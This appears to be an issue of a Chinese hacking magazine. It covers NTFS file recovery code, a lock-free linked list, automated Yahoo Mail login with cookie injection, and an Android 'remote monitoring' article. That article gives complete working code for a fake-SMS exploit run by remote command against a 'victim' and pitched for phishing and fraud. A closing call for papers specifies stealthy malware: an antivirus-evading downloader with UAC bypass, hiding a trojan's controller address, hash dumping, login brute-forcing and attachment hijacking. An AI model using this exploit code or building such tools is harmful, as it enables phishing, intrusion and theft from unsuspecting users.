数据恢复一直是计算机信息安全领域的重点关注对象，大量的数据信息存储在计算机的文件系统中，数据的破坏和丢失经常造成不可弥补的后果。因此，如何恢复丢失的数据就成为了至关重要的问题。对于当前的操作系统来说，Windows 系统占用较大的比例，这其中 NTFS 是主流文件系统格式。本文就将针对 Windows 系统下 NTFS 文件系统的数据恢复进行研究，给出真实可用的代码，读者可以借助本文打造出属于自己的一款数据恢复软件。

NTFS（New Technology File System）是新技术文件系统的简称，NTFS 文件系统采用的分区结构如图 1 所示。

| 引导区 | MFT 区 | 文件存储区 | MFT 备份区 | 文件存储区 |
|---|---|---|---|---|

图 1

NTFS 分区的 DBR 扇区位于 BOOT 区的第一个扇区，在操作系统引导过程中起着非常重要的作用。如果这个扇区被破坏，系统将不能正常启动。DBR 扇区中的 BPB 参数记录了 NTFS 系统中的很多重要信息，包括文件系统标识、每簇扇区数、分区的扇区总数、MFT 的起始逻辑簇号等。

MFT 区存储的就是主文件表，它是 NTFS 的核心文件，记录着分区上每一个文件的索引，这些索引被称为文件记录。NTFS 系统初始建立时，MFT 中有 16 个文件记录，用于记录 16 个元文件，包含 MFT 文件本身。由于每增加一个文件就会在 MFT 中增加一条文件记录，因此分区格式化时会预留一定的缓冲区给 MFT。MFT 很重要，为保证数据安全，系统对其进行了备份，MFT 部分记录备份区存储的就是主文件表的镜像，但是镜像的仅仅是 MFT 中的前四个文件记录。

NTFS 中与文件相关的数据均看作是属性，包括文件内容。一个文件记录有多个属性，每个属性都包含属性头和属性值两个部分。属性分为常驻属性和非常驻属性，对于常驻属性，属性值存储在属性中；如果属性值太大，大于一个文件记录的大小，则需要存储在其他位置，这样的属性为非常驻属性。存储非常驻属性值的区域称为 Data Run。如果非常驻属性值不连续，则 NTFS 会分配多个 Data Run，以便管理不连续的数据，这些 Data Run 的开始簇号等信息记录在 Run List 中。

NTFS 下删除文件后，该文件的文件记录头中的文件特征位被置成 00H，其他的属性不会被更改，因此比较容易恢复。逐一搜索 MFT 中的文件记录，判断记录头的文件特征位，如果为 00H，则通过读取文件名属性获得文件名；继续分析数据属性，如果为常驻属性，则属性值即为文件的数据；如果为非常驻属性，则通过 Run List 找到数据占用的逻辑簇号，再通过查看位图文件以判断这些簇是否已被新数据覆盖。如果未被覆盖，则读取簇中数据，进而恢复被删除的文件。下面结合具体代码进行分析。

在进行数据恢复前，首先需要对磁盘分区的具体情况进行获取，代码如下所示：

```c
typedef struct
{
    WORD    wCylinder;
    WORD    wHead;
    WORD    wSector;
    DWORD   dwNumSectors;
    WORD    wType;
    DWORD   dwRelativeSector;
    DWORD   dwNTRelativeSector;
    DWORD   dwBytesPerSector;
} DRIVEPACKET;    // 以上结构定义了磁盘分区的相关信息
```

```cpp
HANDLE hDrive =
CreateFile(PHYSICAL_DRIVE, GENERIC_READ, FILE_SHARE_READ | FILE_SHARE_WRITE, 0, OPEN_EXISTING, 0, 0); // 这里打开物理磁盘
if (hDrive == INVALID_HANDLE_VALUE) ...
for (i = 0; i < 4; i++) // 对物理磁盘进行分区扫描
{
    stDrive.wCylinder = PartitionTbl->chCylinder;
    stDrive.wHead = PartitionTbl->chHead;
    stDrive.wSector = PartitionTbl->chSector;
    stDrive.dwNumSectors = PartitionTbl->dwNumberSectors;
    stDrive.wType = ((PartitionTbl->chType == PART_EXTENDED) ||
        (PartitionTbl->chType == PART_DOSX13X)) ? EXTENDED_PART : BOOT_RECORD;
    ...
    switch (PartitionTbl->chType)
    {
    case PART_DOS2_FAT:
        strcpy(szTmpStr, "FAT12");
        break;
    case PART_NTFS:
        strcpy(szTmpStr, "NTFS"); // 判定分区格式为 NTFS
        break;
    default:
        strcpy(szTmpStr, "Unknown");
        break;
    }
    ...
}
```

获取完分区信息后，开始进行被删除文件查找，代码如下所示：

```cpp
HANDLE m_hDrive =
CreateFile(PHYSICAL_DRIVE, GENERIC_READ, FILE_SHARE_READ | FILE_SHARE_WRITE, 0, OPEN_EXISTING, 0, NULL);
m_cNTFS.SetDriveHandle(m_hDrive); // set the physical drive handle
m_cNTFS.SetStartSector(drinfototal[drilabel].dwNTRelativeSector, 512); // set the starting sector of the NTFS
nRet = m_cNTFS.Initialize(); // initialize, i.e. read all MFT into the memory
for (i = 0; (i < 0xFFFFFFFF); i++) // theoretical max file count is 0xFFFFFFFF
{
    nRet = m_cNTFS.GetFileDetail(i + 30, stFInfo); // get the file detail one by one
    if ((nRet == ERROR_NO_MORE_FILES) || (nRet == ERROR_INVALID_PARAMETER))
    {
        ...
    }
}
```

在罗列完被删除文件后，进行对指定文件的恢复，代码如下所示：

```cpp
nRet = m_cNTFS.Read_File(nIdxSelLst + 30, pData, dwLen);
...
nRet = m_cNTFS.GetFileDetail(nIdxSelLst + 30, stFInfo);
...
HANDLE hNewFile = CreateFile(szTmpPath, GENERIC_WRITE, 0, NULL, CREATE_ALWAYS, stFInfo.dwAttributes, 0);
...
nRet = WriteFile(hNewFile, pData, dwLen, &dwBytes, NULL);
...
```

通过上述代码，我们即可成功恢复 NTFS 下删除的文件，效果良好，结果如图 2 所示。

图 2

### Windows 同步机制中的无锁单链表实现

文/图 王晓松

在操作系统中，锁一般用于多处理器的情况。如多个处理器共享一个资源，该资源有一个锁负责保护。当处理器 1 要修改这个资源时，通常要先获得该锁。在处理器 1 处理的过程中，若处理器 2 要修改上述共享资源，当它试图获得保护这个资源的锁时，若失败就要空转等待，直到该锁被处理器 1 释放。

这是很简单的一个概念，但为什么要空转等待呢？可能会有这样的解决方案：即处理器 2 无法获得锁时，可以切换到另外一个线程，执行别的任务；当处理器 1 释放该资源时，再切换到原有线程，获得资源。这是个很好的想法，似乎比空转等待效率更高，但请注意，线程的切换同样需要时间，并且压栈出栈的动作较为复杂，而空转等待则避免了线程的切换。当然，这就要求锁的设计之初要保证锁的占用时间尽量短，以免浪费宝贵的 CPU 资源。在 Windows 7 中，性能的一个提高就是将需要锁保护的代码细分，从而有效减少占有锁的时间，提高处理器的反应速度。

上面的内容陈述了使用锁的必要性以及缺点。如果我们处理的共享资源只有几个字节，为了避免使用锁从而导致空转浪费 CPU 资源，Intel 提供了原子指令，可以在这样的一条指令中完成最多对 8 个字节的读出、修改、写回的操作。换句话说，这条指令的完成不受中断的干扰，一气呵成。

线程切换、使用锁以及原子指令的使用环境如图 1 所示。

|  |  |  |
|---|---|---|
| 使用的资源只有几个字节，并且操作简单 | 使用共享资源的时间很短，可以很快释放锁 | 使用共享资源的时间较长 |
| 原子指令 | 使用锁 | 线程切换 |

图 1 线程切换、使用锁以及原子指令的使用环境

### 原子的比较与交换指令

在 Windows 编程中，经常会看到由 Interlocked 打头的函数。一般来说，这些都是 Windows 内核支持的整数原子操作，如 InterlockedIncrement（原子加 1 操作）、InterlockedDecrement（原子减 1 操作）、InterlockedExchange（原子交换操作）等。所谓的原子操作，就是在该函数的执行（包括读取、修改与写回）的整个过程不会被中断打断，因此整个过程不需要使用诸如信号量、事件、锁等同步方式进行保护。

在这些原子操作的函数中，最复杂的可能就是 InterlockedCompareExchange 函数，我们首先看下这个函数的使用：

```c
InterlockedCompareExchange(pointer *Destination, Exchange, Comparand)
```

InterlockedCompareExchange 函数是把指针 `Destination` 指向的内存中的数与 `Comparand` 参数进行比较，如果相等，则用第 2 个参数 `Exchange` 与指针 `Destination` 指向的内存中的数交换。注意，参数 `Exchange` 和 `Comparand` 可以是 8 个字节的整型数。由于整个操作过程是锁定内存的，其他处理器不能同时访问内存，从而实现多处理器环境下的线程互斥。

如果跟踪 InterlockedCompareExchange 函数的内部实现，会发现这个函数实际上是 `Cmpxchg8b` 指令的一个外包函数。`Cmpxchg8b` 指令会涉及到多个寄存器的协同运作，我们用图示来说明这个指令的使用。通常 `Cmpxchg8b` 指令的使用如下所示：

```asm
Cmpxchg8b qword ptr [ebp];
```

这条指令执行的动作如图 2 所示：将 `[ebp]` 中的内容与 `eax:edx` 中的内容相比较，如果相同，则将 `ecx:ebx` 中的内容放于 `[ebp]` 指向的地址中；若不同，则将 `[ebp]` 中的内容赋予 `eax:edx`。注意，这是在一个原子指令中完成的，不会被外部中断干扰。

图 2 Cmpxchg8b 指令的使用

将 InterlockedCompareExchange 函数与 `Cmpxchg8b qword ptr [ebp]` 指令的使用比较，明显可以看出 `ebp` 对应着第一个参数，`ecx:ebx` 对应第二个参数，而 `eax:edx` 则对应第三个参数。`ecx:ebx` 与 `eax:edx` 的组合似乎有点眼花缭乱，不妨将 `ecx:ebx` 的组合记为 BorlandC，`eax:edx` 的组合记为 AD 钙奶，似乎能够亲切一些。

### 无锁单链表的实现

- 1）单链表的结构

下面请我们的主角无锁单链表闪亮登场，这是一个使用 `Cmpxchg8b` 指令的实例。首先看下单链表的结构：该单链表有一个头部，分别包含 `next` 成员（4 个字节）、`Depth` 成员（2 个字节）以及 `Sequence` 成员（2 个字节）。其中 `next` 成员指向链表中的第一个节点，之后每个节点都有一个 `next` 指针，指向下一个节点，从而形成一个单链表。而 `Depth` 成员以及 `Sequence` 成员在原始代码中并没有明确说明，不过从针对该单链表的 `push` 和 `pop` 的操作可以推测出，`Depth` 应该是该单链表当下所链接的节点数目，而 `Sequence` 应该表示的是该节点是第几个加入该链表的节点，这个数目包括已经被弹出的节点。单链表的结构如图 3 所示。

图 3 要实现的单链表

该单链表的特殊之处在于：当在该链表中插入一个节点时，该节点放于队列前，即将该节点插入 `head` 与第一个节点之间；而从该链表弹出一个节点时，也是将 `head` 之后的节点弹出，可以认为这是一个后进先出的结构。在单链表中添加和移除一项的操作如图 4 和图 5 所示。

图 4 单链表中添加一项

图 5 单链表中移除一项

## 2）无锁单链表的实现

在 ReactOS 中，对无锁单链表实现操作的函数称为 `RtlInterlockedPushEntrySList` 和 `RtlInterlockedPopEntrySList`，分别用于向链表中添加和删除节点。为了节约篇幅，重点讲解一下添加节点函数 `RtlInterlockedPushEntrySList` 的实现。

`RtlInterlockedPushEntrySList(head, ListEntry)`

其中，参数 `head` 为链表头，参数 `ListEntry` 为待插入的节点。由于使用了 FastCall 的参数传递方式，因此，在函数内部，`ecx` 中存放的是第一个参数 `head`，而 `edx` 中存放的是第二个参数 `ListEntry`。`RtlInterlockedPushEntrySList` 函数的内部实现如下述代码所示。

```asm
push ebx
push ebp
mov ebp, ecx; 步骤①：将 Head 值赋予 ebp;
mov ebx, edx; 步骤②：将 ListEntry 的值赋予 ebx;
mov edx, [ebp]+4; 步骤③：将 ebp，即 Head 指向的 8 个字节的值赋予 eax:edx（AD 组合）等待比较，其中 eax 中存放的是下一跳的指针，edx 则是 depth/sequence;
mov eax, [ebp]+0;
Epsh10: mov [ebx], eax; 步骤④：将 Head 的下一跳 Next 指针赋予 ebx，即 ListEntry 中的 Next 成员;
lea ecx, [edx+010001H]; 步骤⑤：将 ecx 赋为 depth+1/sequence+1，此时 ebx 指向 ListEntry，与 ecx 的组合做好了与 Head（ebp）中值交换的准备；
lock cmpxchg8b qword ptr [ebp]; 都准备好了，开始交换吧！
jnz short Epsh10; 没有成功，将 [ebp] 赋予 edx:eax，重新开始！
pop ebp; 成功了！
pop ebx
```

每一步含义我都做了注释，完成步骤⑤后，将时间静止在此刻，看图 6 所示，此时各个寄存器已经做好了最后一击的准备。如果在步骤③～⑤期间该单链表没有发生变化，则 `cmpxchg8b` 指令的执行将成功完成，将 `ListEntry` 指向的节点成功插入。若是在步骤③～⑤期间链表发生了变化呢？此时应注意到步骤④、步骤⑤和 `cmpxchg8b` 指令被置于一个循环中，与步骤①～③并不相同，实际上这就是为了应对这种情况。试想事情并不如我们预想的顺利，当执行完步骤⑤时，若另外一个处理器 B 突然强势介入，眼看大功告成之前，在该链表中插入了一个节点，当继续由原处理器接管时，此时需要更新的寄存器为①AD 组合（eax:edx），②ebx 指针指向的内容（因为此时该内容应更新为处理器 B 新插入节点的地址），以及③ecx 中的内容（此时的 depth 和 sequence 成员都应加 1），以上寄存器如图 6 中反显的部分所示，②③中的更新体现在步骤④⑤中，而①的更新则完全隐藏在 `cmpxchg8b` 指令背后。还记得吗？当 `cmpxchg8b` 指令失败时，该指令会自动将 `[ebp]` 赋予 `eax:edx`，好了，一切完美了，程序运行没有问题。

图 6 `cmpxchg8b` 指令执行前各寄存器中的内容

#### 小结

无锁单链表被应用在系统 PTE 等系统管理的算法中，其核心是 `cmpxchg8b` 指令的使用，希望读者看过本文内容后，能清楚地理解无锁单链表的实现机制。

## Yahoo!邮箱自动登录下载邮件程序

文/耿靓

邮箱自动登录分为两种方式，一是通过用户名与密码登录；二是通过 Cookie 登录，本文将分别介绍这两种登录方式。登录首先需要保存登录数据，在 Chrome 里，可以使用本地存储来保存这些数据。使用本地存储很简单，`localStorage["键"]="值"` 的方式就可以进行。为了方便起见，将登录信息全部保存为 JSON 格式，使用时就会方便很多。对于 Yahoo! 邮箱，像 Yahoo.cn、Yahoo.com 等很多地址，只要在某一个邮箱里登录，在其他域名下也可以打开使用，所以我们登录时必须指定在哪个邮箱下打开。本文使用的用户名与密码登录的 JSON 串格式是：

```json
{"mailBaseURL":"登录邮箱的URL","type":"userName","data":{"userName":"用户名@yahoo.com","passWord":"密码"}}。
```

此时会发现一个问题，就是用户如果已经登录了 Yahoo! 邮箱，会影响对应下载邮箱的登录，必须要先将原有数据清除。方法很简单，就是直接删除 domain 为“.yahoo.com”的所有 Cookie 记录就可以了。具体方法是调用 `chrome.cookies.getAll`，就可以得到所有的 Cookie 信息，将所有 domain 值中包含“.yahoo.com”的数据调用 `chrome.cookies.remove` 来清除就可以了，这样即可得到一个干净的浏览器环境。前期准备工作完成了，下面开始进行登录操作。

登录操作就是向 `https://login.yahoo.com/config/login` 提交登录信息。正常登录时是通过提交表单的方式提交的登录信息，而我们使用 Ajax 提交登录信息时就必须注意一点，在 Request head 中，`Content-Type` 的值必须为 `application/x-www-form-urlencoded`，否则无法登录。提交完成后如果成功，Yahoo! 会返回一段 JSON 数据，并且有 `redirect` 字段。登录完成后，Yahoo! 回复的数据流已经为我们设置好了 Cookie，如果是通过 Cookie 登录的方式，就可以跳过前面的内容，直接将 Cookie 设置好就可以了。通过 Cookie 登录的 JSON 串格式为：

```json
{"mailBaseURL":"http://us-mg6.mail.yahoo.com","type":"cookies","data":[{"name":"名称","value":"值","expirationDate":超时时间,"domain":"域","path":"路径","secure":false,"httpOnly":false,"storeId":"0"}......]}。
```

完成登录操作后，就需要获取 Yahoo! 邮箱的主页面信息了，通过跳转到设置的 `mailBaseURL`，就可以加载邮箱数据。要加载邮箱主页面是因为需要获得一些参数，这些参数包括 `wssid`、`windowId`、`urlOrigin`、`folders`、`userID` 和 `neoguid`。获得这些参数后的其他代码与上一篇文章相同，此处就不再赘述。

（完）

### Android 远程监控系统设计之伪造短信

文/图 秦妮

通过前一篇文章，大家已经基本了解了远程监控的框架，在该框架上增加功能也是比较简单的，添加的方法分为如下几步：添加权限、判断指令、指令功能实现。

本文将介绍一个 2012 年底北卡罗来纳州立大学蒋旭尧教授领导的团队发布的 Android 系统所有版本中存在的安全漏洞，任何应用软件不需要任何权限（包括不需要读写短信的权限）都可以在系统中伪造任意号码发来的任何内容的短信或彩信，从而可能引发进一步的钓鱼攻击。Google 已经确认了这一漏洞的存在。

这个漏洞的效果就是当程序运行时，可以在本机上伪造任意号码任意内容的短信，在钓鱼和诈骗中比较常见。首先按照添加功能的方法进行代码编写，第一步是添加权限，该漏洞不需要任何权限，因此这步可省。第二步判断指令，可在源代码中添加如下代码：

```java
if (message.toLowerCase().contains("duanxin")) {
    createFakeSms(this.getApplicationContext(), "10086", "FakeSms");
}
```

这段代码的意思是，当接收到指令“@N#duanxin”时，调用 `createFakeSms` 函数，会在本机伪造一条收到来自 10086 的短信，短信内容是“FakeSms”。这里可将要伪造的短信号码及内容换成自己需要的。

第三步，指令功能实现。这一步比较简单，因为已经有大牛写好了利用代码，我们只要稍加改动就可以拿来使用了，具体代码如下：

```java
private static void createFakeSms(Context context, String sender, String body) {
    byte[] pdu = null;
    byte[] scBytes = PhoneNumberUtils
        .networkPortionToCalledPartyBCD("0000000000");
    byte[] senderBytes = PhoneNumberUtils
        .networkPortionToCalledPartyBCD(sender);
    int lsmcs = scBytes.length;
    byte[] dateBytes = new byte[7];
    Calendar calendar = new GregorianCalendar();
    dateBytes[0] = reverseByte((byte) (calendar.get(Calendar.YEAR)));
    dateBytes[1] = reverseByte((byte) (calendar.get(Calendar.MONTH) + 1));
    dateBytes[2] = reverseByte((byte) (calendar.get(Calendar.DAY_OF_MONTH)));
    dateBytes[3] = reverseByte((byte) (calendar.get(Calendar.HOUR_OF_DAY)));
    dateBytes[4] = reverseByte((byte) (calendar.get(Calendar.MINUTE)));
    dateBytes[5] = reverseByte((byte) (calendar.get(Calendar.SECOND)));
    dateBytes[6] = reverseByte((byte)
        ((calendar.get(Calendar.ZONE_OFFSET) + calendar
            .get(Calendar.DST_OFFSET)) / (60 * 1000 * 15)));
    try {
        ByteArrayOutputStream bo = new ByteArrayOutputStream();
        bo.write(lsmcs);
        bo.write(scBytes);
        bo.write(0x04);
        bo.write((byte) sender.length());
        bo.write(senderBytes);
        bo.write(0x00);
        bo.write(0x00);
        bo.write(dateBytes);
        try {
            String sReflectedClassName =
                "com.android.internal.telephony.GsmAlphabet";
            Class cReflectedNFCExtras =
                Class.forName(sReflectedClassName);
            Method stringToGsm7BitPacked =
                cReflectedNFCExtras.getMethod(
                    "stringToGsm7BitPacked", new Class[]
                    { String.class });
            stringToGsm7BitPacked.setAccessible(true);
            byte[] bodybytes = (byte[])
                stringToGsm7BitPacked.invoke(null, body);
            bo.write(bodybytes);
        } catch (Exception e) {
        }
        pdu = bo.toByteArray();
    } catch (IOException e) {
    }
    Intent intent = new Intent();
    intent.setClassName("com.android.mms",
        "com.android.mms.transaction.SmsReceiverService");
    intent.setAction("android.provider.Telephony.SMS_RECEIVED");
    intent.putExtra("pdus", new Object[] { pdu });
    intent.putExtra("format", "3gpp");
    context.startService(intent);
}

private static byte reverseByte(byte b) {
    return (byte) ((b & 0xF0) >> 4 | (b & 0x0F) << 4);
}


```

这段代码就不详述了，可以参考 http://stackoverflow.com/a/12338541 进行了解。产生漏洞的主要原因是，系统预装的短信程序中，下列服务被暴露（设置为了 `android:export="true"`）：`com.android.mms.transaction.SmsReceiverService`，任何第三方软件可以通过名为 `android.provider.Telephony.SMS_RECEIVED` 的 action，加上自己构造的短信或彩信来调用它，触发系统的短信接收流程。在我们的利用代码中可以看到相关 action 的调用。

通过上面的代码，基本就实现了伪造短信的功能，下面进行下测试吧。本文利用的是虚拟机测试，开启两部虚拟手机，攻击者号码是 **15555215556**，受害者号码是 **15555215554**。攻击者发送攻击指令“QN#duanxin”到受害者号码，受害者接收到指令并执行，从图 1 可以看到，受害者收到一条来自 **10086** 的虚假短信。

图 1

本文到这里就结束了，在后续的文章中将继续增加相关功能，希望大家喜欢。

（完）

黑客防线于 2013 年推出新的约稿机制，每期均会推出编辑部特选的选题，涵盖信息安全领域的各个方面。对这些选题有兴趣的读者与作者，可联系投稿信箱：675122680@qq.com、hadefence@gmail.com，或者 QQ：675122680，确定有意的选题。按照要求如期完成稿件者，稿酬按照最高标准发放！特别优秀的稿酬另议。第 7 期的选题如下：

## 1. 绕过 Windows UAC 的权限限制

自本期始，黑客防线杂志长期征集有关绕过 Windows UAC 权限限制的文章（已知方法除外）。

- 1) Windows UAC 高权限下，绕过 UAC 提示进入系统的方法；
- 2) Windows UAC 低权限下，进入系统后提高账户权限的方法。

## 2. DNS 协议实现远程文件管理

- 要求：
- 1) 实现类似于远程控制软件的文件管理功能；
- 2) 可以浏览文件目录、上传文件、下载文件等；
- 3) 软件采用 DNS 协议，模式采用 C/S 模式；
- 4) 使用 C 或 C++ 语言，VC6 或者 VC2008 编译工具实现。

## 3. 木马控制端 IP 地址隐藏

- 要求：
- 1) 在远程控制配置 server 时，一般情况下控制地址是写入被控端的，当木马样本被捕获分析时，可以分析出控制地址。针对此问题，研究控制端地址隐藏技术，即使木马样本被捕获，也无法轻易发现木马的控制端真实地址。
- 2) 使用 C 或 C++ 语言，VC6 或者 VC2008 编译工具实现。

## 4. 利用 HTTP 协议库实现远程文件管理

说明：  
HTTPTunnel 是一个 C++ 开发用于在两台机器之间进行 HTTP 隧道通信的类库。HTTP 隧道是一种在 HTTP 协议层上进行 Socket 通信的机制。

- 要求：
- 1) 采用 HTTPTunnel 实现类似于远程控制软件的文件管理功能；
- 2) 可以浏览文件目录、上传文件、下载文件等；
- 3) 软件采用 HTTP 协议，模式采用 C/S 模式；
- 4) 使用 C 或 C++ 语言，VC6 或者 VC2008 编译工具实现。

## 5. 读取 Windows 系统用户密码的 Hash 值

- 要求：
- 1) 支持 Windows XP/2003/2008/7/Vista；
- 2) 能读取本机所有用户的 Hash 值，包括域用户的；
- 3) 使用 VC++2008 编译工具编写；
- 4) 代码写成 C++ 类，直接声明类，调用类成员函数就可以调用功能。

## 6. Web 后台弱口令暴力破解

说明：  
针对国际常用建站系统以及自编写的 WEB 后台无验证码登录形式的后台弱口令账号密码暴力破解。

要求：

- 1. 能够自动或自定义抓取建站系统后台登录验证脚本 URL，如 WordPress、Joomla、Drupal、MetInfo 等常用建站系统；
- 2. 根据抓取提交账号密码的 URL，可自动或自定义选择提交方式，自动或自定义提交登录的参数，这里的自动指的是根据默认字典；
- 3. 可自定义设置暴力破解速度，破解的时候需要显示进度条；
- 4. 高级功能：默认字典跑不出来的后台，可根据设置相应的 GOOGLE、BING 等搜索引擎关键字，智能抓取并分析是否是后台以及自动抓取登录 URL 及其参数；默认字典跑不出来的账号密码可通过 GOOGLE、BING 等搜索引擎抓取目标相关的用户账户、邮箱账户，并以这些账户简单构造爆破账号密码，如用户为 admin，密码可自动填充为域名，用户为 abcd@abcd.com，账户密码就可以设置为 abcd abcd 以及 abcd abcd123 或 abcd abcd123456 等简单账号密码；
- 5. 拓展：尽可能多搜集国外常用建站系统后台来增强该软件查找并定位后台 URL 能力；暴力破解要稳定，后台 URL 字典以及账号密码字典可自定义设置等。

## 7. CMD 下向指定 GHO 文件内写入文件

要求：

- 1. 在 CMD 下、无 GUI 界面，向指定的 GHO 文件内写入数据；
- 2. GHO 文件为 XP、Win7 32/64 位的备份；
- 3. 使用环境 XP、Win7 32/64；
- 4. 修改好后，将 GHO 文件的修改时间还原为原来一样的；
- 5. 开发环境 VC。

## 8. Android 下实现 APK 文件捆绑

要求：

- 1. 编写生成器，可以选择两个 APK 文件进行捆绑；
- 2. 生成的文件安装时可以隐藏安装捆绑的 APK；
- 3. 捆绑后的 APK 尽量保持图标无变化；
- 4. 在装有 360 手机卫士的系统中可正常工作。

## 9. 搜索已删除文件

说明：  
搜索磁盘中已经删除的文件、文件夹，实现如下功能。

要求：

- 1. 支持 FAT32/NTFS 文件系统；
- 2. 恢复文件名称、路径以及时间等信息；
- 3. 尝试恢复文档类文件，比如 DOC、PDF 等（可选）；
- 4. 使用 C 或 C++ 语言，VC6 或者 VC2008 编译工具实现，程序可以在命令行下运行。

## 10. Android WIFI Tether 数据转储劫持

说明：  
WIFI Tether（开源项目）可以在 ROOT 过的 Android 设备上共享移动网络（也就是我们常说的 Wi-Fi 热点），请参照 WiFi Tether 实现一个程序，对流经本机的所有网络数据进行分析存储。

要求：

- 开启 Wi-Fi 热点后，对流经本机的所有网络数据进行存储；
- 不同的网络协议存储为不同的文件，比如 HTTP 协议存储为 HTTP.DAT；
- 针对 HTTP 下载进行劫持，比如用户下载 www.xx.com/abc.zip，软件能拦截此地址并替换 abc.zip 文件。

## 11. Windows 7 下 Hook API

要求：

- Ring3 下针对 lsass.exe 进程的 CryptGenKey 函数进行挂钩，跳到自己的函数中，再返回到真实函数；
- 支持 32 位和 64 位 Windows 7；
- 使用 VC++ 2008 编译工具实现，控制台程序；
- 代码写成 C++ 类，直接声明类，调用类成员函数就可以调用功能。

## 12. 编写下载者

说明：

编写一个下载者程序，每次开机启动后，都能从指定网站获取数据，下载并执行。

要求：

- 将该程序上传到邮箱，然后下载到机器上运行，不会有 SmartScreen 提示。
- Windows UAC 安全设置最高，程序自身运行时无提示，能获取系统管理员权限。
- 执行其他程序也能无提示获取系统管理员权限。
- 能够过 360 安全卫士监控，加载驱动保护自身，隐藏和保护指定的文件，隐藏连接，使用 XueTr、PowerTool 工具无法查看到文件和连接。
- 免杀过 360 安全卫士、360 杀毒等主流杀软。
- 程序没有签名。
- 运行的系统补丁打到最新。
- 支持操作系统 Windows XP/2003/Vista/7/2008/8。
- 以上所有功能，能在 32 位和 64 位系统上通用稳定。

## 13. 邮箱附件劫持

说明：

编写一个程序，当用户在浏览器上登录邮箱（本地权限），发送邮件时，自动将附件里的文件替换为另外一个文件。

要求：

- 支持 Gmail、Hotmail、Yahoo 新版旧版、163、126。
- 支持 IE 浏览器 6/7/8/9/10，或支持火狐浏览器，或谷歌浏览器。

## 14. 突破 Windows 7 UAC

说明：

编写一个程序，绕过 Windows 7 UAC 提示，启动另外一个程序，并使这个程序获取到管理员权限。

要求：

- Windows UAC 安全设置为最高级别；
- 系统补丁打到最新；
- 支持 32 位和 64 位系统。

### 2013 征稿启事

《黑客防线》作为一本技术月刊，已经 13 年了。这十多年以来基本上形成了一个网络安全技术坎坷发展的主线，陪伴着无数热爱技术、钻研技术、热衷网络安全技术创新的同仁们实现了诸多技术突破。再次感谢所有的读者和作者，希望这份技术杂志可以永远陪你一起走下去。

投稿栏目：

### 首发漏洞

要求原创必须首发，杜绝一切二手资料。主要内容集中在各种 0Day 公布、讨论，欢迎第一手溢出类文章，特别欢迎主流操作系统和网络设备的底层 0Day，稿费从优，可以洽谈深度合作。有深度合作意向者，直接联系总编辑 binsun20000@hotmail.com。

### Android 技术研究

黑防重点栏目，对 Android 系统的攻击、破解、控制等技术的研究。研究方向包括 Android 源代码解析、Android 虚拟机，重点欢迎针对 Android 下杀毒软件机制和系统底层机理研究的技术和成果。

### 本月焦点

针对时下的热点网络安全技术问题展开讨论，或发表自己的技术观点、研究成果，或针对某一技术事件做分析、评测。

### 漏洞攻防

利用系统漏洞、网络协议漏洞进行的渗透、入侵、反渗透、反入侵，包括比较流行的第三方软件和网络设备 0Day 的触发机理，对于国际国内发布的 POC 进行分析研究，编写并提供优化的 exploit 的思路和过程；同时可针对最新爆发的漏洞进行底层触发、shellcode 分析以及对各种平台的安全机制的研究。

### 脚本攻防

利用脚本系统漏洞进行的注入、提权、渗透；国内外使用率高的脚本系统的 0Day 以及相关防护代码。重点欢迎利用脚本语言缺陷和数据库漏洞配合的注入以及补丁建议；重点欢迎 PHP、JSP 以及 HTML 边界注入的研究和代码实现。

### 工具与免杀

巧妙的免杀技术讨论；针对最新 Anti 杀毒软件、HIPS 等安全防护软件技术的讨论。特别欢迎突破安全防护软件主动防御的技术讨论，以及针对主流杀毒软件文件监控和扫描技术的新型思路对抗，并且欢迎在源代码基础上免杀和专杀的技术论证！最新工具，包括安全工具和黑客工具的新技术分析，以及新的使用技巧的实例讲解。

### 渗透与提权

黑防重点栏目。欢迎非 Windows 系统、非 SQL 数据库以外的主流操作系统的渗透、提权技术讨论，特别欢迎内网渗透、摆渡、提权的技术突破。一切独特的渗透、提权实际例子均在此栏目发表，杜绝任何无亮点技术文章！

### 溢出研究

对各种系统包括应用软件漏洞的详细分析，以及底层触发、shellcode 编写、漏洞模式等。

### 外文精粹

选取国外优秀的网络安全技术文章，进行翻译、讨论。

### 网络安全顾问

我们关注局域网和广域网整体网络防/杀病毒、防渗透体系的建立；ARP 系统的整体防护；较有效的不损失网络资源的防范 DDoS 攻击技术等相关方面的技术文章。

### 搜索引擎优化

主要针对特定关键词在各搜索引擎的综合排名，针对主流搜索引擎的多关键词排名的优化技术。

### 密界寻踪

关于算法、完全破解、硬件级加解密的技术讨论和病毒分析、虚拟机设计、外壳开发、调试及逆向分析技术的深入研究。

### 编程解析

各种安全软件和黑客软件的编程技术探讨；底层驱动、网络协议、进程的加载与控制技术探讨和 virus 高级应用技术编写；以及漏洞利用的关键代码解析和测试。重点欢迎 C/C++/ASM 自主开发独特工具的开源讨论。

### 投稿格式要求：

- 技术分析来稿一律使用 Word 编排，将图片插入文章中适当的位置，并明确标注“图1”“图2”；
- 在稿件末尾请注明您的账户名、银行账号以及开户地，包括你的真实姓名、准确的邮寄地址和邮编、QQ 或者 MSN、邮箱、常用的笔名等，方便我们发放稿费。
- 投稿方式和周期：采用 E-Mail 方式投稿，投稿邮箱：hadefence@gmail.com，QQ：675122680。投稿后，稿件录用情况将于 1～3 个工作日内回复，请作者留意查看。每月 10 日前投稿将有机会发表在下月杂志上，10 日后将放到下下月杂志，请作者朋友注意，确认在下一期也没使用者，可以另找他处。限于人力，未采用的恕不退稿，请自留底稿。

**重点提示：** 严禁一稿两投。无论什么原因，如果出现重稿——与别的杂志重复——与别的网站重复，将会扣发稿费，从此不再录用该作者稿件。

- 稿费发放周期：稿费当月发放，稿费从优。欢迎更多的专业技术人员加入到这个行列。
- 根据稿件质量，分为一等、二等、三等稿件，稿费标准如下：

| 等级 | 稿费 |
|---|---|
| 一等稿件 | 900 元/篇 |
| 二等稿件 | 600 元/篇 |
| 三等稿件 | 300 元/篇 |

- 稿费发放办法：银行卡发放，支持境内各大银行借记卡，不支持信用卡。
- 投稿信箱及编辑联系：
  - 投稿信箱：hadefence@gmail.com
  - 编辑 QQ：675122680

## 《黑客防线》7 期文章目录

总第 151 期 2013 年

### 漏洞攻防

- 惊爆赛孚数据安全系统多个 0Day 漏洞（爱无言）......................2

### 编程解析

- DNS 隧道的实现原理（木羊）........................................17
- DNS 协议实现远程文件管理（好好学习 竹林飘客）..................23
- Linux 后门技术研究之 login 后门的完善（Blackcool）..............26
- IRP 的穿越之旅（王晓松）...........................................30
- 被忽略的计时与倒计时 Bug（BadTudou）.............................26
